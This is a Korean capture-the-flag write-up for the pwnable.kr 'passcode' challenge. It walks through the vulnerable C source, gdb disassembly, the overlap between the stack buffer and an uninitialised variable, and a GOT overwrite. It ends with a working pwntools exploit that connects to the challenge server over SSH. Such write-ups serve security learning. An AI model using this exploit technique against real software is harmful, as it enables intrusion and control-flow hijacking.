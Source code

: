 ```yaml
---
sticker: emoji//2757
---
```

![](Attachments/E8AA1051-C408-4E2D-AB4E-2E9498C60C29.png)

컴파일러 warning이 있었지만 무시하고 에러 없이 컴파일했다고 한다.

![](Attachments/5DFAC315-32C8-4071-AAE8-0274378F4397.png)

passcode.c를 열어보자.

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
 int passcode1;
 int passcode2;

 printf("enter passcode1 : ");
 scanf("%d", passcode1);
 fflush(stdin);

 // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
 printf("enter passcode2 : ");
        scanf("%d", passcode2);

 printf("checking...\n");
 if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
  exit(0);
        }
}

void welcome(){
 char name[100];
 printf("enter you name : ");
 scanf("%100s", name);
 printf("Welcome %s!\n", name);
}

int main(){
 printf("Toddler's Secure Login System 1.0 beta.\n");

 welcome();
 login();

 // something after login...
 printf("Now I can safely trust you that you have credential :)\n");
 return 0;
}
```

passcode1과 passcode2를 알려주고 있다.
일단 passcode 파일을 실행했다.
name을 입력하고 passcode1을 입력했는데, segmentation fault 에러가 발생하고 종료됐다.

![](Attachments/905D3A93-46FC-46F2-9E71-54AF077A7A6E.png)

scanf에서 passcode를 받을 때 '&' 문자로 주소를 정해줘야 하는데 빠져 있어서 생기는 에러인 것 같다.


### gcc

무슨 warning이 생겼던 건지 passcode.c 파일을 한번 컴파일해보자.

![](Attachments/99BA4F09-1D44-4363-B0CB-4DDCC065060B.png)

scanf 함수가 결과를 저장할 passcode1과 passcode2의 주소를 주는 것 대신 그냥 값을 패스하고 있다.

welcome 함수의 scanf에서 warning이 안 뜨는 이유는, 배열의 이름은 base address를 가리키는 포인터로 취급되기 때문이다.


### disas welcome

welcome 함수를 disassemble해보자.

![](Attachments/6E701AD5-1C56-4192-A913-61C4695F692A.png)
```c
void welcome(){
 char name[100];
 printf("enter you name : ");
 scanf("%100s", name);
 printf("Welcome %s!\n", name);
}
```

welcome+33부터 welcome+48까지, scanf 함수에서 벌어지는 일은 다음과 같다.
1. mov $0x80487cb, %eax
	- 문자열 포맷인 `%100s`의 주소를 레지스터 eax에 이동
2. *lea -0x70(%ebp), %edx
	- -0x70(%ebp)는 ebp 레지스터의 값에서 0x70을 뺀 주소를 계산해서 edx에 저장
	- `name` 문자열 배열의 시작 주소를 나타냄

`$ebp-0x70`이 `name`의 주소가 맞는지 확인해보자.

scanf 함수가 호출된 직후인 0x00804863e에 breakpoint를 걸고 실행한다.

![](Attachments/B8DED19F-32DB-4627-872C-AF77F7376A85.png)

`(gdb) x/1s $ebp-0x70`
맞았다!


### disas login

이제 passcode1을 찾아보자.

![](Attachments/34DEC3AA-393A-4119-A6EF-6052AFD3FA7A.png)
![](Attachments/64911B97-4FC1-4F67-B50C-757F6BB468D1.png)
```c
void login(){
 int passcode1;
 int passcode2;

 printf("enter passcode1 : ");
 scanf("%d", passcode1);
 fflush(stdin);

 // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
 printf("enter passcode2 : ");
        scanf("%d", passcode2);

 printf("checking...\n");
 if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
  exit(0);
        }
}
```

scanf 함수를 찾으면 passcode1과 passcode2의 주소도 찾을 수 있다.
```
0x0804857c <+24>: mov    -0x10(%ebp),%edx
[...]
0x080485aa <+70>: mov    -0xc(%ebp),%edx
```

위에서 찾은 name의 주소는 `$ebp-0x70`이었는데, passcode1의 주소는 `$ebp-0x10`이다.
거리가 0x60=96만큼 차이나므로, name의 크기인 100바이트보다 작다. name 배열 끝 4바이트가 passcode1의 주소와 겹친다는 의미이다.
따라서 name에 무슨 입력값을 넣느냐에 따라 4바이트만큼 passcode1의 초기값을 덮어씌울 수 있다.


### PLT & GOT
참고: https://jiravvit.tistory.com/entry/PLT%EC%99%80-GOT
- PLT
	- 외부 라이브러리 함수를 사용할 수 있도록 주소를 연결해주는 테이블
- GOT
	- PLT에서 호출하는 resolve 함수를 통해 구한, 라이브러리 함수의 절대 주소가 저장되어 있는 테이블
- Dynamic Link 방식으로 컴파일된 파일은 프로그램 내부에 라이브러리가 존재하지 않기 때문에, 외부 라이브리로 링크하는 과정이 필요함

이를 이용해 `login()` 안에 있는 함수 중 하나를 골라 그 함수의 PLT를 타고 도착한 GOT 테이블을 `system(/bin/cat flag)`로 덮어쓰면 된다.

name 끝 4바이트에 fflush의 GOT 주소를 입력해서 실행시킨다.
이때 fflush 함수의 GOT를 `system(/bin/cat flag)`로 바꿔서, 실행될 때 fflush 대신 system을 실행하게 해보자.

순서는 다음과 같다.
1. name을 입력할 때 마지막 4바이트에 `fflush` 함수의 GOT 테이블의 주소를 입력한다.
2. passcode1는 `fflush` 함수의 GOT가 된다.
3. passcode1을 입력할 때 `system` 함수의 시작 주소를 입력한다.
4. 이후 `fflush` 함수가 실행될 때 `system` 함수가 대신 실행된다.


### disas fflush

`fflush`의 GOT 테이블 주소를 찾아보자.

![](Attachments/3D5CFAB0-FA80-456D-968D-29E459859D79.png)

`0x08048430 <+0>: jmp *0x804a004`에서 0x804a004로 jmp하는데, 이곳이 `fflush` 함수의 GOT이다.


### system(/bin/cat flag)

`system`의 시작 주소는 `login` 함수를 보면 알 수 있다.

![](Attachments/60A020CD-A429-41D7-9678-7542D3299F93.png)

0xr이다.
하지만 passcode1을 입력받을 때 정수형으로 받기 때문에, 10진수로 바꿔서 보내야 한다.
0x080485e3 = 134514147


### 해결

```python
from pwn import *

fflush_got = 0x804a004

payload = b'A'*96
payload += p32(fflush_got)   # fflush_got을 32비트 리틀 엔디안으로 변환

payload2 = '134514147'

# p = process('./passcode')
s = ssh('passcode', 'pwnable.kr', password='guest', port=2222)
p = s.process('/home/passcode/passcode')

p.sendline(payload)
p.sendline(payload2)

p.interactive()
```

![](Attachments/71CE71E2-DF0E-4503-9957-B1346E0D48B4.png)

🚩